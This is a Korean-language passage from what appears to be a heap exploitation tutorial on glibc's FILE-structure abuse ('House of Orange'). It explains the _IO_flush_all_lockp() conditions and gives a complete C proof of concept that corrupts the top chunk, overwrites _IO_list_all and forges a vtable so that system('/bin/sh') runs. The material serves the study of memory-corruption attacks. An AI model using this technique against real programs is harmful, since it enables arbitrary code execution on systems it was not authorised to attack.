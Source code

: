_IO_flush_all_lockp() 로직으로 주요한 몇 부분이 있다.

```c
 if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
       || (_IO_vtable_offset (fp) == 0
           && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
                    > fp->_wide_data->_IO_write_base))
```

이 부분의 조건을 맞춰줘야 _IO_OVERFLOW 함수를 호출 할 수 있다. 이 함수가 호출될 때 익스 트리거가 발생할 것이기 때문에 조건에 맞춰주어야 한다. 그리고 fp = fp->\_chain; 로직에 의해 fp가 smallbin[4]지점으로 변경된다. (이 부분 때문에 smallbin[4]에 free chunk를 넣어야 한다.)

_IO_flush_all_lockp() 에서 저 조건들을 맞춰주고 정상적으로 vtable로 점프한다면 익스가 성공한다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int winner ( char *ptr);
 
int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;
 
    p1 = malloc(0x400-16);
 
    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;
 
    p2 = malloc(0x1000);
    io_list_all = top[2] + 0x9a8;
    top[3] = io_list_all - 0x10;
 
    memcpy( ( char *) top, "/bin/sh\x00", 8);
 
    top[1] = 0x61;
    top[24] = 1;
    top[21] = 2;
    top[22] = 3;
    top[20] = (size_t) &top[18];
    top[15] = (size_t) &winner;
    top[27] = (size_t ) &top[12];
     
    malloc(10);
 
    return 0;
}
 
int winner(char *ptr)
{
    system(ptr);
    return 0;
}
```
